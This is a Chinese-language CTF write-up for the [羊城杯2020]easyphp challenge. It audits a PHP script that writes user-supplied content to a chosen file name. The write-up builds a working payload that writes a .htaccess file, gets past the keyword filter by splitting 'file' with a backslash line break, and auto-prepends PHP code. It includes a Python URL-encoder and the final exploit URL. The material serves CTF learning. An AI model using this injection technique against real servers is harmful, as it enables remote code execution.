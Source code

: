 # [羊城杯2020]easyphp

## 知识点

`file_put_contents`

`php代码审计`

## 解题

题目给出`php`源码进行代码审计

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

每次都会将当前目录下`index.php`以外的文件删除,传入的`content`不能包含`on` `html` `type` `flag` `upload` `file`，文件名只能为`小写字母和.`

试了传`index.php`不行

那么使用`.htaccess`作为文件名传参

```
php_value auto_prepend_file
.htaccess
#<?php phpinfo();?>
```

因为`file`关键字被过滤以及需要转义后面的`\nHello,world`，所以构造`payload`,因为本机为`mac`，所以换行符编码为`%0A`,需要替换为`%0D%0A`

```
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();?>
#\
```

`python`代码为

```python
from urllib.parse import quote

with open('a.txt', 'r') as f:
    content = f.read().strip()
    print(quote(content).replace('%0A', '%0D%0A'))
```

最终`payload为`

```
?filename=.htaccess&content=php_value%20auto_prepend_fi%5C%0D%0Ale%20.htaccess%0D%0A%23%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%0D%0A%23%5C
```

![](./img/[羊城杯2020]easyphp-1.png)

![](./img/[羊城杯2020]easyphp-2.png)

![](./img/[羊城杯2020]easyphp-3.png)